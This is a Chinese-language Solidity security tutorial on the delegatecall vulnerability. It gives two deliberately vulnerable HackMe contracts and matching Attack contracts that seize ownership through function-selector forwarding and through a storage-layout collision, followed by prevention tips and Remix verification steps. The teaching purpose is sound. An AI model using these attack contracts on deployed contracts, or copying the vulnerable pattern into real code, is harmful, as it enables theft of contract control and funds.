


# 70.delegatecall
Solidity的delegatecall漏洞是一种安全漏洞，可以允许攻击者通过调用另一个合约的方法来执行恶意代码。这种漏洞的根本原因是delegatecall的实现方式，该实现方式将调用的代码的上下文（存储、地址等）与调用方的合约合并在一起，从而可能导致意外的行为。
## 漏洞
delegatecall的使用很棘手，错误的使用或不正确的理解可能会导致灾难性的结果。
在使用delegatecall时，您必须记住两件事：
1. delegatecall保留上下文（存储，调用者等...）
2. 调用delegatecall的合约和被调用的合约的存储布局必须相同。
### 合约漏洞例子
* Lib合约。
它有一个公共变量 "owner"，代表合约的拥有者地址。合约中有一个公共函数 "pwn()"，当该函数被调用时，会将合约的拥有者地址设置为调用该函数的地址。
```solidity
contract Lib {
    address public owner;

    function pwn() public {
        owner = msg.sender;
    }
}
```

* HackMe合约
它有一个公共变量owner，表示合约的所有者地址，以及一个名为lib的公共变量，表示该合约依赖的Lib合约。
由于delegatecall()函数的特性，如果lib合约中存在恶意代码，则可以利用fallback()函数将其调用到当前合约中，并在当前合约的上下文中执行。因此，该合约存在安全隐患，可能被黑客攻击。
```solidity
contract HackMe {
    address public owner;
    Lib public lib;
    
    //构造函数中，传入一个Lib类型的参数_lib，并将msg.sender赋值给owner，将_lib强制转换为Lib类型并赋值给lib变量
    constructor(Lib _lib) {
        owner = msg.sender;
        lib = Lib(_lib);
    }
    //fallback()函数中，使用delegatecall()函数调用lib合约，并将msg.data作为参数传递给它。
    fallback() external payable {
        address(lib).delegatecall(msg.data);
    }
}
```
HackMe是一个使用delegatecall执行代码的合约。由于HackMe内部没有更改所有者的功能，因此更改所有者并不明显。但攻击者可以通过利用delegatecall来劫持合约。让我们看看如何实现。

1. Alice部署了Lib。
2. Alice使用Lib的地址部署了HackMe。
3. Eve使用HackMe的地址部署了Attack。
4. Eve调用Attack.attack()。
5. 现在Attack是HackMe的所有者。

发生了什么？

Eve调用了Attack.attack()。
Attack调用了HackMe的fallback函数，并发送了pwn()函数的函数选择器。
HackMe使用delegatecall将调用转发到Lib。
在这里，msg.data包含pwn()函数的函数选择器。
这告诉Solidity在Lib内部调用函数pwn()。
函数pwn()将所有者更新为msg.sender。
Delegatecall使用HackMe的上下文运行Lib的代码。
因此，HackMe的存储被更新为msg.sender，其中msg.sender是HackMe的调用者，即Attack。

```solidity
contract Attack {
    address public hackMe;

    constructor(address _hackMe) {
        hackMe = _hackMe;
    }

    function attack() public {
        hackMe.call(abi.encodeWithSignature("pwn()"));
    }
}
```

### 另一个例子。
在你理解这个漏洞之前，你需要了解Solidity如何存储状态变量。
这是比前一个漏洞例子的更复杂版本。

1. Alice部署Lib和HackMe，并将Lib的地址传递给它们
2. Eve部署Attack并将HackMe的地址传递给它
3. Eve调用Attack.attack()
4. 现在Attack是HackMe的所有者

发生了什么？
请注意，Lib和HackMe中的状态变量没有以相同的方式定义。这意味着调用Lib.doSomething()将更改HackMe内的第一个状态变量，该变量恰好是lib的地址。

在attack()函数内，第一次调用doSomething()会更改存储在HackMe中的lib地址。现在，lib的地址被设置为Attack。

第二次调用doSomething()会调用Attack.doSomething()，在这里我们更改了所有者。
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

contract Lib {
    uint public someNumber;

    function doSomething(uint _num) public {
        someNumber = _num;
    }
}

contract HackMe {
    address public lib;
    address public owner;
    uint public someNumber;

    constructor(address _lib) {
        lib = _lib;
        owner = msg.sender;
    }

    function doSomething(uint _num) public {
        lib.delegatecall(abi.encodeWithSignature("doSomething(uint256)", _num));
    }
}

contract Attack {
    // 确保存储布局与HackMe相同
    // 这将使我们能够正确地更新状态变量。
    address public lib;
    address public owner;
    uint public someNumber;

    HackMe public hackMe;

    constructor(HackMe _hackMe) {
        hackMe = HackMe(_hackMe);
    }

    function attack() public {
        // 覆盖lib的地址
        hackMe.doSomething(uint(uint160(address(this))));
        // 如果将任何数字作为输入传递，下面的函数doSomething()将被调用。
        hackMe.doSomething(1);
    }

    // 函数签名必须与HackMe.doSomething()匹配。
    function doSomething(uint _num) public {
        owner = msg.sender;
    }
}
```
### 预防性技术
* 使用无状态库
* 为了避免这种漏洞，开发人员应该避免在智能合约中使用delegatecall，并始终使用call或send来调用其他合约的函数。此外，开发人员还应该谨慎处理来自外部合约的数据，并使用安全的输入验证和过滤机制来防止攻击者利用漏洞。
  
## remix验证
1. 部署合约Lib和HackMe以及Attack，在Attack合约中调用attack（）函数，Hackme合约owner被修改为Attack地址。

2. 部署合约Lib和HackMe以及Attack，在Attack合约中调用attack（）函数，Hackme合约owner被修改为Attack地址。在attack()函数内，第一次调用doSomething()会更改存储在HackMe中的lib地址。现在，lib的地址被设置为Attack，第二次调用doSomething()会调用Attack.doSomething()，owner被修改。

